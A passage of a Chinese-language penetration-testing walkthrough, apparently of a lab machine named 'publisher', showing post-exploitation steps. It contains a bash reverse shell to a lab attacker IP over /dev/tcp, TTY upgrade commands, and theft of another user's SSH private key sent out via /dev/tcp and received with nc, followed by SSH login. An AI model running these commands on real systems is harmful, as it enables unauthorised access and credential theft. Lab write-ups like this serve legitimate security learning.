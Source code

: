```bash
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

成功获得 Meterpreter shell

---

### **4. 获得更稳定的 shell**

为了获得更稳定的 shell，创建一个反向 shell 脚本，并上传到目标机器：

```bash
cat a.sh  
bash -i >& /dev/tcp/192.168.205.141/8888 0>&1  
chmod +x a.sh  
bash a.sh
```

获得交互式 TTY shell：

```bash
script /dev/null -c bash  
ctrl+z  
stty raw -echo; fg  
reset xterm  
export TERM=xterm  
echo $SHELL  
export SHELL=/bin/bash  
stty rows 59 cols 236
```

---

### **5. 获取** **​**​**​`think`​**​**​** **用户 SSH 密钥**

访问 `/home/` 目录，发现 `think` 用户目录下的 `.ssh` 目录具有读取权限。由于本机没有 SSH 客户端，可以通过 `cat` 将私钥传输回攻击机，并登录到目标机器：

#### 目标机器：

```bash
cat id_rsa > /dev/tcp/192.168.205.141/7777
```

#### 攻击机：

```bash
nc -lvnp 7777 > id_rsa  
chmod 600 id_rsa  
ssh think@192.168.205.211 -i id_rsa
```

成功登录 `think` 用户：

```bash
think@publisher:~$ id  
uid=1000(think) gid=1000(think) groups=1000(think)
```

---
